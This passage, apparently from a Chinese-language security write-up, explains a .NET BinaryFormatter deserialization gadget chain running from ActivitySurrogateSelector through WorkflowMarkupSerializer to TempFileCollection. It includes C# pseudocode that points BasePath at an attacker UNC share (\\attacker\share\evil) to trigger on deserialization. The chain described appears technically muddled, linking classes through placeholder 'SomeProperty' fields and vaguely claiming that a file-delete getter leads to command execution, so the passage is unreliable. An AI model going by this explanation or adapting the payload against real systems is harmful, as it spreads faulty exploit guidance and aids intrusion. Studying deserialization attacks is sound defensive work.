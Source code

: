 3. **反序列化触发链条**
   - 目标应用调用 `formatter.Deserialize()`，开始反序列化。
   - 反序列化过程中，`ActivitySurrogateSelector` 介入，调用其 `GetSurrogate()`，对 `Activity` 进行特殊处理。
   - `Activity` 的反序列化会递归还原其成员，最终还原到 `WorkflowMarkupSerializer`，再到 `TempFileCollection`。

4. **危险属性访问与命令执行**
   
   - 在 `TempFileCollection` 的反序列化过程中，其 `DeleteBaseName` 属性会被访问。
   - 该属性的 getter 内部逻辑会对 `BasePath` 进行文件操作（如 `File.Delete(BasePath + ".tmp")`）。
   - 如果 `BasePath` 被设置为特殊值（如包含目录穿越、UNC 路径、受控文件），可被利用触发命令执行（如结合计划任务、DLL 劫持等），甚至某些情况下可以直接触发外部进程（如 `cmd.exe`）。

---

### 1.4 伪代码示例

```csharp
// 构造 TempFileCollection，设置 BasePath 为恶意路径
var tempFiles = new TempFileCollection();
tempFiles.BasePath = @"\\attacker\share\evil"; // 或特殊路径

// 构造 WorkflowMarkupSerializer，持有 tempFiles
var serializer = new WorkflowMarkupSerializer();
serializer.SomeProperty = tempFiles;

// 构造 Activity，持有 serializer
var activity = new Activity();
activity.SomeProperty = serializer;

// 构造 ActivitySurrogateSelector，持有 activity
var selector = new ActivitySurrogateSelector();
selector.SomeProperty = activity;

// 序列化 selector
var formatter = new BinaryFormatter();
formatter.Serialize(stream, selector);

// 反序列化时触发链条
formatter.Deserialize(stream);
```

---

### 1.5 触发点与关键代码

- **ActivitySurrogateSelector.GetSurrogate()**  
  在反序列化过程中被自动调用，递归处理对象。
- **TempFileCollection.DeleteBaseName**  
  其 getter 触发敏感操作，攻击者完全可控。

---

### 1.6 影响范围

